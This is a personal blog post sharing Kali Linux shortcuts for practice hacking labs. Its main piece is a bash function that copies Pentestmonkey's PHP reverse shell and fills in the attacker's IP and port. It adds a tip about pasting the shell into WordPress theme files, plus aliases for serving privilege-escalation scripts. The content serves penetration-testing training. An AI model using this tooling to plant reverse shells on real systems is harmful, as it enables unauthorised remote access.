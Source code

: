 ```yaml
---
layout:     post
title:      Kali Linux QoL Improvements
date:       2019-09-21 15:20:20
author:     J
summary:    Life's too short
categories: General Guides
thumbnail:  thumbs-up
tags:
 - Linux
 - Kali
 - PHP Reverse Shell
 - Bashrc
 - Bash Aliases
---
```


This post will be updated once in a blue moon. Just wanted to share some stuff which I use because I think it's good to automate certain repeated processes when hacking boxes. Life's too short to be wasting time on such things.

---

## PHP Reverse Shell Generator


This particular script is for generating a PHP reverse shell with IP address and port preconfigured in the current working directory. This is particularly useful if you find that your IP address has changed due to changing VPNs or just that a new one was issued to you when reconnecting. It works by creating a copy of Pentestmonkey's PHP Reverse Shell script into the current working directory, and changing the backconnect IP and Port to one of your choosing. This script is preloaded in Kali Linux somewhere(do a `/locate php-reverse-shell.php` to find it), but you can also just do a fresh download.

To use, just append it to your `.bashrc` file in your user's home directory and restart your terminal(Don't forget to change the script directory!). The original script can be found on Pentestmonkey [here][1]. Replace the ip address in the script to 'ipaddress' and set the port to 443.

Alternatively, you can download the [modified version on my Github][2] to use with this script. Change the directory in the script to where you saved the script to.

Usage: `phprev <Interface> <Optional: Listening Port>`
<br>e.g. `phprev tun0 1234`


~~~bash
# Create PHP reverse shell in current directory. Usage example: phprev tun0 1234
# Defaults to port 443 if port is not specified

function phprev() {
        phprevshelldir=/root/Try-Harder/Scripts/Shells/php-reverse-shell.php #CHANGE THIS
        if [ $# -eq 0 ]; then echo "Please define interface"
        else
            revip=`ifconfig $1 | head -n2 | tail -n1 | awk '{print $2}' `
            cp $phprevshelldir ./rev.php && sed -i 's/ipaddress/'$revip'/g' rev.php
                if [ $# -eq 2 ]; then
                revport=$2 ;
                sed -i 's/443/'$2'/g' rev.php
                else revport=443
                fi
            echo "PHP reverse shell(rev.php) created and configured to connect back to:" $revip:$revport
        fi
}
~~~

If you need to copy and paste the script somewhere(e.g wordpress theme files), just use the following to have the contents copied to your clipboard quickly:

~~~bash
cat rev.php | xclip -sel clip
~~~

---

## Bash Aliases


Sometimes you have many folders that you need to navigate quickly, or long commands that you type. These can be shortened, saving lots of time and gives great convenience in the long run. This is a sample of what I have inside my `/root/.bash_aliases` file. If you don't have it, just create it. After adding aliases in, restart your terminal.

~~~bash
# Directories

alias htb='cd ~/0x4a/Hackthebox'
alias vhl='cd ~/0x4a/VirtualHackingLabs'
alias pwk='cd ~/0x4a/PWK'
alias scripts='cd ~/Try-Harder/Scripts'
alias linenum='cd ~/Try-Harder/Scripts/Linux-PrivEsc'
alias hostlse='cd ~/Try-Harder/Scripts/Linux-PrivEsc && python -m SimpleHTTPServer'
alias armoury='cd ~/The-Armoury'

# vpn

alias ovpn='openvpn ~/0x4a/Hackthebox/openvpn/Dreamscent.ovpn'

# Other

alias hosts='nano /etc/hosts'
alias tun0='ifconfig tun0 | head -n2'
alias ppp0='ifconfig ppp0 | head -n2'
alias pyhttp='python -m SimpleHTTPServer'
alias clip='xclip -sel clip'
~~~

[1]: http://pentestmonkey.net/tools/web-shells/php-reverse-shell
[2]: https://github.com/Dreamscent/Try-Harder/blob/master/Scripts/Shells/php-reverse-shell.php
